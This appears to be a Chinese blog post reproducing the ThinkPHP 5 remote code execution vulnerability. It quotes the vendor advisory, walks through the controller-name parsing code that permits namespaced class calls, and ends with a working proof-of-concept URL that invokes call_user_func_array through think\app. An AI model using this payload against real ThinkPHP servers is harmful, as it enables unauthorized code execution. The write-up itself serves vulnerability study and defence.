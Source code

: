 categories:
- cve复现
tags:
- cve复现
title: tp5rce复现
---
# tp5rce复现

## 影响范围

>### 本次版本更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0.23和5.1.31之前的所有版本，推荐尽快更新到最新版本。
>
>**如果暂时无法更新到最新版本，请开启强制路由并添加相应未定义路由，或者参考commit的修改 增加相关代码。**
>
>--来自thinkphp官网



## 漏洞原理

根据官方的公告去寻找相关commit发现漏洞位置

![image302](https://i.loli.net/2020/01/28/5EDWfFXvmqSuJk3.png)



查看所有调用controller的函数发现有个敏感的函数名exec,不过这个是tp自己实现的

```php
	public function exec()
    {
        // 监听module_init
        $this->app['hook']->listen('module_init');

        try {
            // 实例化控制器
            $instance = $this->app->controller($this->controller,
                $this->rule->getConfig('url_controller_layer'),
                $this->rule->getConfig('controller_suffix'),
                $this->rule->getConfig('empty_controller'));

            if ($instance instanceof Controller) {
                $instance->registerMiddleware();
            }
        } catch (ClassNotFoundException $e) {
            throw new HttpException(404, 'controller not exists:' . $e->getClass());
        }
    ...
    }
```

跟进controller

```php
    public function controller($name, $layer = 'controller', $appendSuffix = false, $empty = '')
    {
        list($module, $class) = $this->parseModuleAndClass($name, $layer, $appendSuffix);

        if (class_exists($class)) {
            return $this->__get($class);
        } elseif ($empty && class_exists($emptyClass = $this->parseClass($module, $layer, $empty, $appendSuffix))) {
            return $this->__get($emptyClass);
        }

        throw new ClassNotFoundException('class not exists:' . $class, $class);
    }
```

再跟进parseModuleAndClass

```php
protected function parseModuleAndClass($name, $layer, $appendSuffix)
    {
        if (false !== strpos($name, '\\')) {
            $class  = $name;//存在\
            $module = $this->request->module();
        } else {
            if (strpos($name, '/')) {
                list($module, $name) = explode('/', $name, 2);
            } else {
                $module = $this->request->module();
            }

            $class = $this->parseClass($module, $layer, $name, $appendSuffix);
        }

        return [$module, $class];
    }
```

如果存在\则直接返回数据,其中`$name`是我们可控内容,而`$name`也恰好是类名,于是我们可以通过调用命名空间\类来进行敏感操作

## 漏洞利用

查找手册,找到url访问的具体细节

`http://serverName/index.php（或者其它应用入口文件）?s=/模块/控制器/操作/[参数名/参数值...]`

于是有通杀tp5.0.x和tp5.1.x的检测payload

` http://127.0.0.1/public/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=var_dump&vars[1][]=checktp5rce `

